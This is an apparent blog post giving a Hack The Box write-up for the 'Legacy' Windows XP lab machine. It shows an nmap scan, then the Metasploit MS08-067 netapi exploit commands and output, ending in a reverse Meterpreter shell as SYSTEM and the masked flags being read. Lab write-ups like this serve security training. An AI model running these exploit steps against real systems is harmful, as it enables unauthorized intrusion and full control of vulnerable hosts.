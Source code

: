 ```yaml
---
layout: post
title: LEGACY(HTB)
categories:
  - Writeup
---
```

<br>OS Windows
<br>IP: 10.10.10.4
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -Pn 10.10.10.4

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-17 14:28 EST
<br>Nmap scan report for 10.10.10.4
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT     STATE  SERVICE       VERSION
<br><font color="BB69EC">139/tcp</font>  open   netbios-ssn   <font color="53E100">Microsoft Windows netbios-ssn</font>
<br><font color="BB69EC">445/tcp</font>  open   microsoft-ds  <font color="53E100">Microsoft Windows XP microsoft-ds</font>
<br><font color="BB69EC">3389/tcp</font> closed ms-wbt-server
<br>Service Info: OSs: Windows, <font color="53E100">Windows XP</font>; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

<br>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.53 seconds</p>
</div>
</font>

<br>**Vulnerabilty**:- The Target machine is running _**SMB**_ service on a windows XP machine so we can use the netapi exploit which is avaialbe on metsaploit.

<br>**Vulnerabilty Description**:- This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same process) from crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent attempts. This is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.

<br>**Exploit**:- [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/smb/ms08_067_netapi
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > set RHOST 10.10.10.4
<br>RHOST => 10.10.10.4
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.14.14:4444 
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Automatically detecting the target...
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Attempting to trigger the vulnerability...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.4
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (<font color="53E100">10.10.14.14:4444 -> 10.10.10.4:1029</font>) at 2017-12-17 15:45:50 -0500

<br>meterpreter > getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter > shell
<br>Process 624 created.
<br>Channel 1 created.
<br>Microsoft Windows XP [Version 5.1.2600]
<br>(C) Copyright 1985-2001 Microsoft Corp.

<br><font color="BB69EC">C:\WINDOWS\system32></font></p>
</div>
</font>
<br>Using this exploit we got the _**System Level Privilege**_
<br>**Flags**:-
<font size="1">
<div style="height:150px;width:400px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<br><font color="BB69EC">C:\Documents and Settings\john\Desktop></font>type user.txt</p>
<br><font color="53E100">**********************</font>
<br><font color="BB69EC">C:\Documents and Settings\Administrator\Desktop></font>type root.txt
<br>type root.txt
<br><font color="53E100">**********************</font>
</div>
</font>
